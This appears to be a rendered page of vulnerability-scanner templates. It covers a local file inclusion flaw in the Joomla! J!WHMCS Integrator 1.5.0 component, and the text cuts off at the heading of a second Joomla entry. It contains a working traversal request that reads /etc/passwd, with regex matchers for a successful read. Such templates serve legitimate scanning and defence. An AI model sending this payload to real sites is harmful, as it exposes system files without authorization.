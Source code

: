 
# Joomla! Component J!WHMCS Integrator 1.5.0 - Local File Inclusion

## Description

- A directory traversal vulnerability in the J!WHMCS Integrator (com_jwhmcs) component 1.5.0 for Joomla! allows remote attackers to read arbitrary files via a .. (dot dot) in the controller parameter to index.php.
- severity - high
- tags - edb,cve,cve2010,joomla,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?option=com_jwhmcs&controller=../../../../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Joomla! Component Horoscope 1.5.0 - Local File Inclusion

## Description

